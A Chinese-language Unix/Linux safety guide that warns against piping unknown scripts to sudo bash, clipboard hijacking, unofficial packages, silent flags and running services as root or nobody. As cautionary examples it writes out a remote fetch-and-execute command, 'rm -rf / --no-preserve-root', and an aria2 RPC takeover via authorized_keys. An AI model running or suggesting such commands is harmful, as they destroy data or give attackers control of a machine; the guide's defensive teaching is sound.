


# 网上教程不会告诉你的类 Unix 使用注意事项

---


```
$ curl https://lorem.ipsum/dolor.sh | sudo bash
```

上面的一行命令，你看着熟悉吗？

noarch 现在告诉你，这个你将要运行的 `dolor.sh` 内容是这样的：

```
rm -rf / --no-preserve-root
```

如果你在使用 GNU/Linux 或 *BSD, 运行它会删除你电脑上的所有数据，需要你耗费大量精力找回。

这类操作系统自由度极高，但也代表着人为损坏的门槛更低；因此你需要在使用时多加注意。

下面是 noarch 在数年 GNU/Linux 使用过程中总结出的 do's & don'ts.


## *不：* 运行未知脚本

我们再来看下开头 noarch 提到的命令：

```
$ curl https://lorem.ipsum/dolor.sh | sudo bash
```

它其中的管道符号 `|` 代表所有从 `curl` 输出的内容均会被盲目地被 `sudo bash` 执行。

你可能会问，*那我是不是就不要运行脚本了？*

当然不是。前提是你*在运行脚本之前了解自己在运行些什么。* noarch 取这个使用管道符号运行脚本的例子，还强调审核脚本的重要性。

noarch 建议你在运行任何脚本之前，先下载下来粗略阅读一遍，然后再给它可执行权限运行。这样你至少知道自己在运行什么。

### 你真的需要一键脚本吗？

noarch 的个人意见：*使用他人的一键脚本，可视化面板等不是学习 Unix 的好方法。*

脚本没法覆盖所有使用情况，不知道目标机器的硬件配置，因此往往只能取一个“刚好能运行”的配置。

例如，如果你使用一个脚本配置 LNMP (Linux + Nginx + MySQL + PHP), 你的 Nginx 配置可能不会禁用不安全的 HTTP, 并且未启用[严格传输安全](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security)。

这让你的网站暴露于 TLS 降级攻击：一个过度简单的描述就是中间人攻击者拦截客户端开始 HTTPS 通讯的请求，使得客户端只使用 HTTP 访问你的网站。攻击者再可以由此窃取你用户的帐号密码，修改你网站的内容...

除了安全问题之外，忽略细节需要牺牲性能：因为[安全问题](https://www.acunetix.com/blog/articles/tls-vulnerabilities-attacks-final-part/)，众多发行版的 Nginx 安装都默认禁用 Gzip 压缩。这会让你的用户和服务器浪费许多宝贵的流量，并降低加载速度。如果你手动配置 Nginx 并愿意了解更多技术细节，你就可以专门为静态资源 (CSS, JS...) 启用 Gzip.

Gzip 配置得当[能帮你省下超过 70% 的流量](https://www.rootusers.com/gzip-vs-bzip2-vs-xz-performance-comparison/)！


## *不：* 复制粘贴进 shell

你在浏览器内复制的东西不永远是你想的那样。

网站可以用 Javascript [劫持你的剪贴板](https://briantracy.xyz/writing/copy-paste-shell.html)，让你复制与你选择时完全不同的内容。

并且，你在粘贴时，甚至不需要手动按回车执行指令：在大多数默认情况下，恶意剪贴板劫持内的一个换行字符就足以让命令在你粘贴时就运行。

即使你是 [`oh-my-zsh`](https://ohmyz.sh/) 的用户，启用了 [bracked pasting](https://cirw.in/blog/bracketed-paste), 恶意代码也可以通过包含 bracketed pasting 字符来逃逸这个功能，就像众多 SQL injection 一样。

一些终端模拟器，例如 iTerm2, `gnome-terminal` 和 `Terminal.app` 会自动将 bracket 字符转义，这样你相对不怎么需要担心最后一点。

### 粘贴进 `vim` 也不安全

你可能以为 Vim 只是一个文本编辑器，你在其中粘贴内容是安全的；

但恶意代码还可以利用 Vim 的宏功能执行命令。[这是另一个 Demo](https://github.com/dxa4481/Pastejacking), 以及一些应对措施。

### 那我如何科学地复制粘贴？

最好的方案 - 不要复制粘贴互联网上的内容到 Shell 等允许执行指令的地方。

如果你实在要粘贴，一个更基本的文本编辑器，例如 `gedit` 可能适合你的需求。

如果你愿意接受一些代价，你也可以禁用浏览器的 Javascript 复制粘贴功能：

以 Firefox 或 Tor 浏览器为例，去 `about:config` 里禁用 `dom.allow_cut_copy`.

这会阻止所有 Javascript 引起的复制粘贴行为，意味着例如 Google Docs 以及 mdBook `clipboard.js` 这些对 Javascript 剪贴板的合法应用将会失效。


## *不：* 安装野包

“野包”指除了发行版官方软件源之外的软件包。

例如，[Discord](https://discord.com/) 是一个专有软件，因违反许多发行版的规定而无法进入官方软件源；而你获得它的方法之一就是通过 Discord 官网下载它的 `.deb` 软件包；这个来自 Discord 网站的软件包就称之为“野包”。

另一个例子是 [`docker-ce`](https://docs.docker.com/engine/install/debian/), 它用来在老系统上运行最新版 Docker.

需要注意的是，Canonical 的 PPA, Arch Linux AUR 等都属于“野包”。它们不受到发行版的稳定性/兼容性保障。

这些“野包”为系统带来了诸多威胁：

- 为了最大化兼容性，野包往往自己打包所有依赖库，而这些依赖库不随系统更新。
	- 如果某个依赖出现安全问题，你将需要依靠软件发布者进行更新；

- 除此之外，不带软件源的“野包”还完全无法自动更新；

- 如果野包使用系统依赖，那么问题更大了：你在进行发行版大更新时，它们大概率会因为 ABI/API 变更集体罢工；
	- 如果野包注册了服务开机自启，它甚至可能会导致你的电脑完全无法开机；

- 不明来源的包能像上述脚本一样在安装时运行脚本完全摧毁你的系统。

### 野包的替代

以上述 Discord 为例，你可以在 [Flathub](https://flathub.org/home) 上找到[它的 Flatpak 版](https://flathub.org/apps/details/com.discordapp.Discord)；这个 Flatpak 版虽然也打包所有依赖，但它在沙盒内运行，并且能够被统一更新。

来自 Ubuntu 的 [Snap](https://snapcraft.io/) 也提供了类似 Flatpak 的沙盒环境，让你能够更安全地运行专有软件。

除了用于运行专有软件以外，Flatpak 和 Snap 还提供许多软件的更新版本；

例如在本文编写时，Debian 10 提供 GIMP 2.10.8, 但你可以通过 Flatpak 运行 GIMP 2.10.22 或 GIMP 3 的最新测试版，而不用担心它们突然损坏系统。

至于 `docker-ce`, 它在大多数情况下不必要；例如 Debian 就提供了 [`docker.io`](https://packages.debian.org/buster/docker.io). 你将来还可以使用 [`podman`](https://packages.debian.org/bullseye/podman) 来代替 Docker, 并且 Podman 相比 Docker 不需要后台守护进程。

### `make install`?

当你运行 `make install` 时，你在运行开发者给你的一个安装脚本；根据你 `./configure` 时配置的选项，它可能会将软件安装到 `/usr/local/`. 这样还好，因为这个地方专属于“野包”；

但是，类似于[不运行未知脚本](#不-运行未知脚本)，请在 `make install` 前检查 `Makefile`, 确保你能将它卸载干净。你也可以使用 `debuild` 来与 Makefile 交互，自己创建一个相对好一点（至少能被 `dpkg` 追踪）的“野包”。

### 别无选择？

有意思的是，noarch 上面讲到的“野包”之一就是安全运行野包的一个方法。

你可以使用 Podman 或 Docker 运行一个发行版容器，然后在容器里安装野包。任务完成后，把容器删除即可。如果你需要更多安全性，虚拟机也是一个好主意。


## *不：* 使用静默选项



图源：[@k4yt3x](https://t.me/k4yt3x)

上图是为什么你不应该使用静默选项的一个绝佳例子。图中 @k4yt3x 尝试使用 `apt full-upgrade` 升级系统，然而 `telegram-desktop` 却与现有的 QT5 冲突，引出一串删除包的动作。

如果他在这里使用了 `-y` 来自动确认，整个 QT5 框架将会被卸载；如果他再懒一些，还使用了 `--autoremove --purge`, 后果将不堪设想。


## *不：* 使用 `root` 登录

一直使用 `root` 账户登录，除了严重安全问题之外，你还被暴露在手滑的风险下。

例如你想 `rm -rf ./*`, 却多打了一个空格，变成了 `rm -rf . /*`, 这个操作不仅不会触发 preserve-root, 并且后果与直接删除 `/` 没有什么区别。

### *不：* `root` 运行服务

noarch 再举一个例子：你使用 [aria2](https://aria2.github.io/) 搭建了一个下载机。

你对安全并非完全不重视，使用了 ssh key 登录，并且限制了可以访问 ssh 的 IP 地址。

但你犯了一个错误：你在 `root` 登录的情况下使用 `nohup` 在后台运行 `aria2c`, 并且暴露了 RPC 端口。

在不利用任何 0day 的情况下，攻击者只需要找出你的 aria2 RPC 密钥（你为了方便，它多半是一个弱密码），然后下载他的 ssh 公钥到 `/root/.ssh/authorized_keys`, 这台机器就是他的了。

noarch 推荐的使用方法是为 `aria2c` 创建一个专门，低权限的用户，然后将它以这个用户运行；你还可以为它创建一个 `systemd` 服务，指定运行时的用户和组，或者使用 `systemd` 的[动态用户](https://www.freedesktop.org/software/systemd/man/systemd.exec.html#DynamicUser=)功能。

### *不：* `nobody` 运行服务

> <i class="fas fa-check-circle"></i> 感谢 [@Karuboniru](https://t.me/karuboniru) 的勘误！

你可能觉得，系统里最低权限的用户是 `nobody`, 也确实有很多教程叫你把服务在 `nobody` 下运行。*那么以后低权限的进程都用 `nobody`?*

很抱歉，这是一个误导。noarch 在[本章第一版](https://github.com/noarchwastaken/privacy/commit/707dfe884294a2667008c10359704264ba126e0a)时也犯了这个错误。

使用 `nobody` 运行服务，会使你的服务意外获得其它在 `nobody` 下的资源。`nobody` 还被 Linux 内核[用来映射无法映射到当前命名空间内的 UID](https://fedoraproject.org/wiki/Changes/RenameNobodyUser), 例如 NFS 使用的 32 位 UID.


## *不：* 盲目跟随“教程”



图源：[@ducksoft](https://t.me/ducksoft)

刚看完上一节[不安装野包](#不-安装野包)，你应该意识到上图的行为像是自杀。它将 `rpm` 包强行安装在基于 Debian 的发行版上，后果可想而知...

包括 noarch 在内，互联网上的教程编者也经常犯错误，或者无法及时更新他们的教程。（就看上一节[不 `nobody` 运行服务]()！）

盲目跟随这些教程可能使你陷入死胡同，使用一个已经被抛弃的配置，例如在 Nginx 上启用 SSLv3. （永远别尝试在生产环境上这么做！）

如果你觉得你在遵循的教程有点奇怪或过时，请阅读 man pages.


## *最好：* 阅读 man pages

说起 man pages, 它是学习类 Unix 系统的最好方法：软件的官方文档通常就被打包为 man pages - 文档页。

例如，noarch 要为自己搭建一个 `cgit` 可视化，而我不知道如何配置 `cgitrc` (`cgit` 的配置文件)。

这时 noarch 只需要运行 `man cgitrc`, 这个由 `cgit` 开发者写的文档内就告诉了 noarch 这个配置文件的格式，配置项以及它们的用途。比网上某个教程可靠得多！

阅读 man pages 可能比盲目跟随网上教程耗时长，但它绝对能给你省下后续解决问题的时间。

如果你是 *BSD 用户，因为互联网上几乎没有傻瓜式教程，阅读 man pages 几乎是你生活不可或缺的一部分。


## *最好：* 定期备份

如果你在 `privacy.noarch` 的 [Telegram 群](https://privacy.n0ar.ch/chat)内活跃，你应该知道 noarch 使用 [Btrfs](https://btrfs.wiki.kernel.org/index.php/Main_Page).

Btrfs 的[写入时复制](https://en.wikipedia.org/wiki/Copy-on-write)特性为 noarch 的日常备份带来了极大便利；并且它也多次在 noarch 搞坏系统时拉了我一把。

别急着转换文件系统到 Btrfs; noarch 想要传达的信息是，时常备份系统能在你玩脱时把你救回来。

无论是云服务器提供商的“快照”功能，还是简单地复制 `home` 目录，保留对你而言重要的数据是“不玩脱”重要的一环。


## *最好：* 拥抱自由软件

运行着 GNU/Linux, 却还在寻找运行 Microsoft Office, Adobe Photoshop, Discord 等专有软件的方法？

这可能是现在的你，这也是曾经的 noarch.

在 GNU/Linux 或 *BSD 上运行专有软件，专有软件会将你作为“二等公民”对待。

这是因为他们根本不关心，或是很少关心这些用户的体验：2020 年，GNU/Linux 和 *BSD 的[桌面市场占有率加起来还不到 MacOS 的七分之一](https://gs.statcounter.com/os-market-share/all/worldwide/2020)。

而自由软件则是另一个故事了：它们的作者往往自己使用 GNU/Linux 或 *BSD，许多还专门为这些操作系统构建。

例如 [Evince](https://wiki.gnome.org/Apps/Evince), 来自 GNOME 项目的 PDF 阅读器，虽然功能没有 Adobe Acrobat “全面”，但能保你轻松阅读和填写大多数 PDF 文档而不遇到奇怪问题。

另一个例子是 [GIMP](https://www.gimp.org/), 尽管作者不喜欢它被这么叫，它依然被广泛称为“自由的 Photoshop”. 除了智能性比 Photoshop 差点，它能承担所有你在 Photoshop 上的任务。

> <i class="fas fa-info-circle"></i> `privacy.noarch` 的首要任务之一就是让你更快上手各类自由软件！


## 多问问题，问好问题

虽然作为一个 ~~内向的作曲家~~，但是 noarch 依然想在最后说：**请利用好社区资源。**

GNU/Linux 和 *BSD 由数千个组件构成，当你遇到问题时，请弄清楚是哪个组件引发了你的问题；

例如，你的电脑经常在使用过程中突然卡住，请查阅 `syslog`, 查出到底是某个软件，桌面环境，还是内核引起的问题。

在你找出出问题的组件之后，请去它们对应的 bug tracker 搜索；因为如果你的问题确实由一个最近出现的 bug 引起，搜索引擎没法及时索引 bug tracker.

例如 noarch 在 Linux 5.7 发布时遇到了[一个巨大的 bug](https://bugzilla.kernel.org/show_bug.cgi?id=207383), 它影响了所有 Polaris 11 架构的 AMD 显卡，包括 noarch 的 RX580 在内，使得 Linux 内核在运行几分钟到几十分钟不等时 panic.

noarch 在搜索引擎搜索无果，自己编译内核无果，后来才在 Linux kernel bugzilla 找到了这个问题。虽然没有参与测试，但 noarch 也得到了解决方案：将内核降级。幸运的是，降级到 Linux 5.6 之后，这个问题就消失了。

如果你对问问题有更多的疑惑，可以参考[提问的智慧](https://github.com/ryanhanwu/How-To-Ask-Questions-The-Smart-Way/blob/main/README-zh_CN.md)，它围绕 Hacker 社区的传统，详细讲解了如何问关于软件的问题。


---

如果你发现 noarch 在本章漏了哪些重要内容，请别犹豫，[问 noarch](https://t.me/noarchwastaken) 或者为 `privacy.noarch` [加上你想要的内容](https://github.com/noarchwastaken/privacy/pulls)。
